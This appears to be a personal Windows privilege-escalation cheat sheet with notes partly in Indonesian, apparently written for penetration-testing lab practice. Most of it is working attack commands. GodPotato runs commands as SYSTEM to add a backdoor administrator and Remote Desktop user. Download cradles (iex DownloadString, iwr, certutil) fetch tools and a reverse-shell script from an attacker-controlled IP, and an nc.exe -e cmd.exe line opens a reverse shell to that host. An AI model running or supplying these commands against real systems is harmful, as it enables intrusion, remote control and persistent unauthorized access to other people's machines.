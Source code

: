 ```cmd
.\GodPotato-NET4.exe -cmd "net user nox password123! /add"
.\GodPotato-NET4.exe -cmd "net localgroup administrators nox /add"
.\GodPotato-NET4.exe -cmd 'net localgroup "Remote Desktop Users" nox /add'
.\GodPotato-NET4.exe -cmd "cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.45.168:8000/Invoke-PowerShellTcpEx.ps1')"

One go:
iwr http://192.168.45.168:8000/GodPotato/GodPotato-NET4.exe -outfile GodPotato-NET4.exe
iwr http://192.168.45.168:8000/nc.exe -outfile nc.exe
certutil -urlcache -f "http://192.168.45.168:8000/GodPotato/GodPotato-NET4.exe" GodPotato-NET4.exe
certutil -urlcache -f "http://192.168.45.168:8000/nc.exe" nc.exe
.\GodPotato-NET4.exe -cmd 'cmd /c "C:\Users\chris\nc.exe" 192.168.45.168 5555 -e cmd.exe'
```
4. SELALU CEK HASIL `whoami /priv` di https://github.com/gtworek/Priv2Admin

net localgroup "Remote Desktop Users" nox /add
net localgroup "Remote Management Users" nox /add

======

1. Search Files
```cmd
dir /b/s *.txt
dir /b/s local.txt
dir /b/s proof.txt      

Get-ChildItem -Path C:\Users -Include local.txt,proof.txt -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
2. Winpeas (SELALU JALANIN DI AWAL, SEDIAIN 2 SESSION)

3. Juicy Potato (SeImpersonatePrivilege) >> OUTDATED, GodPotato is better.
https://github.com/k4sth4/Juicy-Potato/tree/main

4. PrinterSpoofer (SeImpersonatePrivilege)
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

5. Adding user
```cmd
net user nox nox /add
net localgroup administrators nox /add
```

6. ls -la
```cmd
dir /q /ad
```

7. To check our permission in a file or directory
```cmd
PS C:\backup> poweshell Get-Acl C:\xampp\htdocs\logs | fl
```
